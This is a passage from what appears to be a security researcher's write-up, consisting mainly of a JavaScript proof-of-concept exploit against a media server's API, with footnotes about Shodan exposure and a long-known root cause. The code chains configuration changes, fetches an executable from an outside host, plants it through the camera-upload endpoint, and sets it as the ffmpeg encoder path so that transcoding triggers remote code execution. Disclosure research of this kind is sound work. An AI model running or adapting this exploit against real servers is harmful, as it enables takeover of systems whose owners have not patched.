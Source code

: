 ```js { linenos=true, linenostart=1 }
    let response = await fetch("/System/Info", {
        headers: baseHeaders,
    });

    const tempPath = (await response.json()).TranscodingTempPath;
    const fakeEncoderName = "ffmpeg_backup.exe";
    const fakeEncoderFolder = "ffmpeg_backup";

    // The .jpg extension gets added automatically for camera uploads with Content-Type: application/octet-stream.
    const customEncoderPath = `${tempPath}\\${fakeEncoderFolder}\\${fakeEncoderName}.jpg`;

    // Change the camera upload path to a known location so that we can use it as the new encoder path.
    const configurationOptions = {
        CameraUploadPath: tempPath,
    };

    await fetch("/System/Configuration/devices", {
        method: "POST",
        headers: baseHeaders,
        body: JSON.stringify(configurationOptions)
    });

    // Download the executable from an outside source and drop it on the server with the camera upload functionality.
    // This needs to be done before changing the encoder path, because a file check is made.
    const blob = await (await fetch("http://localhost:8000/rofl.exe")).blob();

    await fetch(`/Devices/CameraUploads?Album=${fakeEncoderFolder}&Name=${fakeEncoderName}&Id=1`, {
        method: "POST",
        headers: baseHeaders,
        body: blob
    });

    // Remember the original encoder path so that we can reset it later.
    response = await fetch("/Encoding/FfmpegOptions", {
        headers: baseHeaders,
    });

    const currentEncoderPath = (await response.json()).Object.OriginalEncoderPath;

    // Set the encoder path to our previously dropped executable.
    const ffmpegOptions = {
        "CustomEncoderPath": customEncoderPath,
        "UseCustomEncoderPath": true
    };

    response = await fetch("/Encoding/FfmpegOptions", {
        method: "POST",
        headers: baseHeaders,
        body: JSON.stringify(ffmpegOptions)
    });

    // Retrieve some random video and request a stream of it.
    // Because we specifiy the 'avi' container, this involves an encoding step, which triggers the executable -> RCE.
    response = await fetch("/Items?Recursive=true&IncludeItemTypes=Video&Limit=1", {
        headers: baseHeaders,
    });

    const videoId = (await response.json()).Items[0].Id;

```

[^fn:1]: Last time I checked on Shodan.
[^fn:2]: The root cause was a vulnerability first reported at least three years earlier!
[^fn:3]: Jellyfin actually [did](https://jellyfin.org/posts/jellyfin-security-and-you).